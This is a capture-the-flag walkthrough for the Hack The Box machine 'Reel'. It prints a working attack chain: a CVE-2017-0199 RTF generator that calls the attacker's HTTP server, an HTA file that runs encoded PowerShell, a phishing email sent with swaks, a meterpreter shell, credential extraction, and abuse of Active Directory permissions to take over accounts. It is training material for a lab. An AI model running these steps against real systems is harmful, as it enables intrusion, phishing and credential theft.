

143 - Reel
==========

Mandatory nmap scan:
```bash
❯❯❯ sudo nmap -sS --top-ports 1000 10.10.10.77
Starting Nmap 7.70 ( https://nmap.org ) at 2018-07-26 17:57 CEST
Nmap scan report for 10.10.10.77
Host is up (0.064s latency).
Not shown: 997 filtered ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
25/tcp open  smtp

Nmap done: 1 IP address (1 host up) scanned in 16.85 seconds
```

On the FTP server, anonymous access is possible, 3 files are on the server:
- AppLocker.docx
- readme.txt
- Windows Event Forwarding.docx

Content of readme.txt:
```
please email me any rtf format procedures - I'll review and convert.

```

In the Windows Event Forwarding.docx we find the author email, `nico@megabank.com`. With this information and some Google research we find a CVE on Windows that is exploitable with RTF files, CVE-2017-0199. There exist a metasploit exploit and a python PoC on Github. I started with the PoC from <https://github.com/bhdresh/CVE-2017-0199> to generate my RTF file:
```bash
❯❯❯ python cve-exploit.py -M gen -t RTF -w rev.rtf -u http://10.10.14.65:8080/custom.hta
Generating normal RTF payload.

Generated rev.rtf successfully
```

Then we need to create the `custom.hta` file. I used a template adapted from <https://securityaffairs.co/wordpress/58077/breaking-news/cve-2017-0199-exploitation-poc.html>:
```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>  
<meta content="text/html; charset=utf-8" http-equiv="Content-Type" />  
<title>Bonjour</title>  
<script language="VBScript">  
    Set a = CreateObject("Wscript.Shell")
    a.Run "powershell -nop -e cABpAG4AZwAgADEAMAAuADEAMAAuADEANAAuADYANQAKAA=="
</script>  
<hta:application id="oHTA" applicationname="Bonjour" application="yes">  
</hta:application>  
</head>
<body>
</body>
</html>
```

The payload in powershell was generated using:
```bash
❯❯❯ iconv -t UTF-16LE <<< 'ping 10.10.14.65' | base64
cABpAG4AZwAgADEAMAAuADEAMAAuADEANAAuADYANQAKAA==
```

Then we serve this on port 8080 to be picked by the server:
```bash
❯❯❯ python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
```

And we can send the `rev.rtf` file to the email we found using `swaks`:
```bash
❯❯❯ swaks -s "10.10.10.77" -p "25" -t "nico@megabank.com" -f "me@example.com" --header "Subject: foo" --body "this is a test" --attach rev.rtf
```

After some time, the file is processed, the `custom.hta` is downloaded from the python webserver and pings are visible in Wireshsark.

To upgrade to meterpreter shell I used VBSMeter found here <https://github.com/Cn33liz/VBSMeter>, just as described in the readme. And we get a shell that allows to gain the user flag:
```
C:\Users\nico\Desktop>type user.txt
type user.txt
fa363aebcfa2c29897a69af385fee971
```

## Privilege escalation
Having a meterpreter shell is only the beginning. We want PowerShell for this machine. We can get interactive powershell thanks to meterpreter extensions. The procedure is explained here <https://www.darkoperator.com/blog/2016/4/2/meterpreter-new-windows-powershell-extension>. Summarized it gives:
```
meterpreter > load powershell
Loading extension powershell...Success.
meterpreter > powershell_import PowerSploit/Privesc/PowerUp.ps1
[+] File successfully imported. No result was returned.
meterpreter > powershell_shell
PS>
```

In the process I've imported the PowerUp module from PowerSploit <https://github.com/PowerShellMafia/PowerSploit>. We can easily run all checks and see if something could be exploited:
```
PS > Get-RegistryAutoLogon

DefaultDomainName    : HTB
DefaultUserName      : nico
DefaultPassword      : 4dri@na2017!**
AltDefaultDomainName :
AltDefaultUserName   :
AltDefaultPassword   :
```

As we can see, the AutoLogon already returns the password of our current user. On the Desktop of nico we also find a file named `cred.xml` that contains this:
```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">HTB\Tom</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692</SS>
    </Props>
  </Obj>
</Objs>
```

We can extract the password for tom as follows:
```
PS > $text="01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692"
PS > $ss = $text | convertto-securestring
PS > $cred=New-Object System.Management.Automation.PSCredential -ArgumentList "HTB\Tom",$ss
PS > $cred.GetNetworkCredential() | fl *

UserName : Tom
Password : 1ts-mag1c!!!
Domain   : HTB
```

To connect to the SSH port we can forward a local port to the port 22 on Reel as follow using meterpreter command:
```
meterpreter > portfwd add -l 2222 -p 22 -r 127.0.0.1
[*] Local TCP relay created: :2222 <-> 127.0.0.1:22
```

Then we can SSH to Reel by running:
```bash
❯❯❯ ssh -p 2222 tom@localhost
The authenticity of host '[localhost]:2222 ([127.0.0.1]:2222)' can't be established.
ECDSA key fingerprint is SHA256:jffiqnVqz/MrcDasdsjISFIcN/xtlDj1C76Yu1mDQVY.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[localhost]:2222' (ECDSA) to the list of known hosts.
tom@localhost's password: 

Microsoft Windows [Version 6.3.9600]                                                                                     
(c) 2013 Microsoft Corporation. All rights reserved.                                                                     

tom@REEL C:\Users\tom>
```

A note in a directory tells us basically to re-run BloodHound:
```
PS C:\Users\tom\Desktop\AD Audit> type .\note.txt                                                                   
Findings:                                                                                                           

Surprisingly no AD attack paths from user to Domain Admin (using default shortest path query).                      

Maybe we should re-run Cypher query against other groups we've created.
```

Conveniently, there is a `SharpHound.ps1` file available in the directory. We can run SharpHound by first running powershell while bypassing the execution policy, then importing the module and finally invoking BloodHound:
```
tom@REEL C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors>powershell -nop -ExecutionPolicy Bypass                      
Windows PowerShell                                                                                                       
Copyright (C) 2014 Microsoft Corporation. All rights reserved.                                                           

PS C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors> Import-Module .\SharpHound.ps1
PS C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors> Invoke-BloodHound -CollectionMethods All                          
Initializing BloodHound at 4:38 PM on 7/28/2018                                                                          
Starting Default enumeration for HTB.LOCAL                                                                               
Status: 29 objects enumerated (+29 Infinity/s --- Using 78 MB RAM )                                                      
Finished enumeration for HTB.LOCAL in 00:00:00.4064694                                                                   
0 hosts failed ping. 0 hosts timedout.                                                                                   

PS C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors> ls                                                                


    Directory: C:\Users\tom\Desktop\AD Audit\BloodHound\Ingestors                                                        


Mode                LastWriteTime     Length Name                
----                -------------     ------ ----                
-a---        11/16/2017  11:50 PM     112225 acls.csv            
-a---         7/28/2018   4:38 PM       4433 BloodHound.bin      
-a---        10/24/2017   4:27 PM     246489 BloodHound_Old.ps1  
-a---         7/28/2018   4:38 PM       4366 group_membership.csv
-a---         7/28/2018   4:38 PM        179 local_admins.csv    
-a---        10/24/2017   4:27 PM     568832 SharpHound.exe      
-a---        10/24/2017   4:27 PM     636959 SharpHound.ps1
```

As we can see, the csv files were created and can now be imported in BloodHound. BloodHound indicates that tom can control claire and then the group backup_admins:


Let's exploit this with the existing `PowerView.ps1` script:
```
PS C:\Users\tom\Desktop\AD Audit\BloodHound> import-module .\PowerView.ps1 
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainObjectOwner -Identity claire -OwnerIdentity tom 
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
PS C:\Users\tom\Desktop\AD Audit\BloodHound> Get-DomainObjectAcl -Identity claire -ResolveGUIDs | ? {$_.SecurityIdentifier -match $(ConvertTo-SID tom)}                                                                                                         


AceQualifier           : AccessAllowed                                                                                          
ObjectDN               : CN=Claire Danes,CN=Users,DC=HTB,DC=LOCAL                                                               
ActiveDirectoryRights  : ExtendedRight                                                                                          
ObjectAceType          : User-Force-Change-Password                                                                             
ObjectSID              : S-1-5-21-2648318136-3688571242-2924127574-1130                                                         
InheritanceFlags       : None                                                                                                   
BinaryLength           : 56                                                                                                     
AceType                : AccessAllowedObject                                                                                    
ObjectAceFlags         : ObjectAceTypePresent                                                                                   
IsCallback             : False                                                                                                  
PropagationFlags       : None                                                                                                   
SecurityIdentifier     : S-1-5-21-2648318136-3688571242-2924127574-1107                                                         
AccessMask             : 256                                                                                                    
AuditFlags             : None                                                                                                   
IsInherited            : False                                                                                                  
AceFlags               : None                                                                                                   
InheritedObjectAceType : All                                                                                                    
OpaqueLength           : 0                                                                                                      

AceType               : AccessAllowed                                                                                           
ObjectDN              : CN=Claire Danes,CN=Users,DC=HTB,DC=LOCAL                                                                
ActiveDirectoryRights : WriteOwner                                                                                              
OpaqueLength          : 0                                                                                                       
ObjectSID             : S-1-5-21-2648318136-3688571242-2924127574-1130                                                          
InheritanceFlags      : None                                                                                                    
BinaryLength          : 36                                                                                                      
IsInherited           : False                                                                                                   
IsCallback            : False                                                                                                   
PropagationFlags      : None                                                                                                    
SecurityIdentifier    : S-1-5-21-2648318136-3688571242-2924127574-1107                                                          
AccessMask            : 524288                                                                                                  
AuditFlags            : None                                                                                                    
AceFlags              : None                                                                                                    
AceQualifier          : AccessAllowed 


PS C:\Users\tom\Desktop\AD Audit\BloodHound> Set-DomainUserPassword -Identity claire

cmdlet Set-DomainUserPassword at command pipeline position 1                                                                    
AccountPassword: ***********
```

We can then log on as claire using SSH. And, with her privileges, add tom to the `Backup_Admins` group:
```
PS C:\Users\claire> Add-ADGroupMember -Identity Backup_Admins -Members tom
```

Then we must log out and log in again with tom to gain the new privileges. Once this is done we can read some of the Administratoruser folder but the root flag is still not accessible:
```
PS C:\Users\Administrator\Desktop> cat .\root.txt                                                            
cat : Access to the path 'C:\Users\Administrator\Desktop\root.txt' is denied.                                
At line:1 char:1                                                                                             
+ cat .\root.txt                                                                                             
+ ~~~~~~~~~~~~~~                                                                                             
    + CategoryInfo          : PermissionDenied: (C:\Users\Administrator\Desktop\root.txt:String) [Get-Conte  
   nt], UnauthorizedAccessException                                                                          
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetCont  
   entCommand
```

However, there is a folder called `Backup Scripts` that contains the following:
```
PS C:\Users\Administrator\Desktop\Backup Scripts> ls                                                         


    Directory: C:\Users\Administrator\Desktop\Backup Scripts                                                 


Mode                LastWriteTime     Length Name                                                            
----                -------------     ------ ----                                                            
-a---         11/3/2017  11:22 PM        845 backup.ps1                                                      
-a---         11/2/2017   9:37 PM        462 backup1.ps1                                                     
-a---         11/3/2017  11:21 PM       5642 BackupScript.ps1                                                
-a---         11/2/2017   9:43 PM       2791 BackupScript.zip                                                
-a---         11/3/2017  11:22 PM       1855 folders-system-state.txt                                        
-a---         11/3/2017  11:22 PM        308 test2.ps1.txt
```

And in here, one of the files contain the Administrator password:
```
PS C:\Users\Administrator\Desktop\Backup Scripts> gc .\BackupScript.ps1 | select -first 2                    
# admin password                                                                                             
$password="Cr4ckMeIfYouC4n!"
```

From here, we can log in with SSH as the Administrator and get the flag:
```
❯❯❯ ssh Administrator@10.10.10.77
Administrator@10.10.10.77's password: 

Microsoft Windows [Version 6.3.9600]                                                                               
(c) 2013 Microsoft Corporation. All rights reserved.                                                               

administrator@REEL C:\Users\Administrator>type Desktop\root.txt                                                    
1018a0331e686176ff4577c728eaf32a
```
